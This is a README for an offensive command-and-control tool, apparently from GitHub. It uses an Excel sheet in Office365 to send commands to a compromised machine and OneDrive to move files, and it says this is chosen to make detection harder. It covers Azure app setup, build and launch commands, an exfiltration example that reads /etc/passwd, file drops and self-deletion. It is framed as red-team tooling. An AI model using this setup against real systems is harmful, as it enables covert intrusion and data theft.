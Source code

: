 # Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

## Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Microsoft's domains to make detection more difficult.

## Requirements

- Azure AD login with permissions to:
  - Register Application
    - Apply Delegated and Application permissions for Files.ReadWrite.All
  - Grant admin consent confirmation
- O365 Subscription

## Set up

1. **Register an Azure Portal App**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    1. Select **Users** on the left navigation panel
    1. Select your user and note the **Object ID**.  This will be used for the `userId` (or `USER_ID` environment variable)
      ![User Id](img/user-id.png)
    1. Expand **Azure Active Directory** on the left navigation panel
    1. Expand **Applications**
    1. Select **App registrations** \
      ![App registrations](img/aad-portal-app-registrations.png)
    1. Click the  **New Registration** button \
      ![New registration](img/new-registration.png)
    1. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button \
      ![New application](img/new-application.png)
    1. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively (or `CLIENT_ID` and `TENANT_ID` environment variables) \
      ![App IDs](img/app-ids.png)
    1. Click **API permissions** \
      ![API permissions](img/api-perms.png)
    1. Click the **Add a permission** button \
      ![Add permission](img/add-perm-button.png)
    1. Click the **Microsoft Graph** button \
      ![Add MS Graph](img/add-graph-perm.png)
    1. Click the **Application permissions** button \
      ![Application Permissions](img/app-perm.png)
    1. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button \
      ![File Permissions](img/files-perm.png)
    1. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    1. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner \
      ![Grant Consent](img/grant-consent.png)
    1. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button \
      ![New Secret](img/new-secret.png)
    1. Enter a description and click the **Add** button \
      ![Add Secret](img/add-secret.png)
    1. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field (or `CLIENT_SECRET` environment variable)\
      ![Copy Secret](img/copy-secret.png)

1. **Create the Excel Spreadsheet**

    1. Login with the same account to [OneDrive](https://onedrive.live.com)
    1. Click on the arrow next to the **New** button and select **Excel workbook**.  The file name will be used for the `fileName` field (or `FILE_NAME` environment variable)\
      ![New Workbook](img/new-excel.png)

1. **Setup Environment**
    There are 3 different ways to configure the credentials for the app.
    1. You can hardcode the values in the root.go file before building
    1. You can set environment variables that will be read during the execution of the application
    1. You can pass the values as flags to the application when starting

    ***Below are the flags for the different methods:***

    | Credential | root.go Variable | Environment Variable | Comamnd Flag |
    | --- | --- | --- | --- |
    | Tenant ID from Azure App #9 | tenantId | TENANT_ID | tenant |
    | Client ID from Azure App #9 | clientId | CLIENT_ID | client |
    | Client Secret from Azure App #19 | clientSecret | CLIENT_SECRET | secret |
    | User Id from Azure App #3 | userId | USER_ID | user |
    | Filename from Excel Spreadsheet #2 | fileName | FILE_NAME | file |

1. **Build executable**

    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```none
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --file <fileId> --user <userId> --verbos <true|false>
    ```

   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

### Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Upload files (data exfiltration) using Microsft OneDrive
- Exit

#### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

#### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is:

 ```none
upload;<remote path>
 ```

Example:

 ```none
upload;/etc/passwd
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is:

 ```none
download;<OneDrive file name>;<remote path>
 ```

Example:

 ```none
download;down.txt;/home/user/downloaded.txt
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation:
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow

![Workflow](img/workflow.png)

### Demo

![Demo](img/demo.gif)

### Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

### Inspired from

[https://github.com/looCiprian/GC2-sheet](https://github.com/looCiprian/GC2-sheet)

### Support the project

Pull request
